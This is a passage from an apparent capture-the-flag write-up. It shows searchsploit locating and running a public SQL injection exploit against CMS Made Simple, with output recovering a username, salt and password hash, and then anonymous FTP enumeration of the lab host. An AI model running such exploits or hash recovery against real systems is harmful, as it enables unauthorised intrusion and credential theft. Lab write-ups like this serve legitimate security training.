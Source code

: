 ```
$ searchsploit -p 46635       
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```
$ searchsploit -m 46635 
```

This gives a python module which should do most of the hard work for us.

The python script needs an ip address and an optional worldlist if the -c flag is set. I had some problems running the script initially due to the script being written for python2 but my system favouring python3 as well as some missing dependencies (termcolor and requests). Once these where resolved I was able to run the script without a wordlist and the crack flag set to give the following result: 

```
$ python 46635.py -u http://$IPADDR/simple

...

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

So we have a user named mitch, a salt and a password hash. At this time I couldn't get the script to crack the password has as python interpreter was complaining about problems with unicode when loading strings from the wordlist.

An initial attempt to try and find the password using John The Ripper didn't work out as I couldn't get the username, salt and hash into a format that it was happy with.

## Does FTP give anything?
As a diversion with issues with python, unicode and hashes I decided to explore the FTP a little more. 

```
$ ftp $IPADDR
Connected to 10.10.199.87.
220 (vsFTPd 3.0.3)
Name (10.10.199.87:james): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd ftp
550 Failed to change directory.
ftp> ls ftp
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> ls pub
```
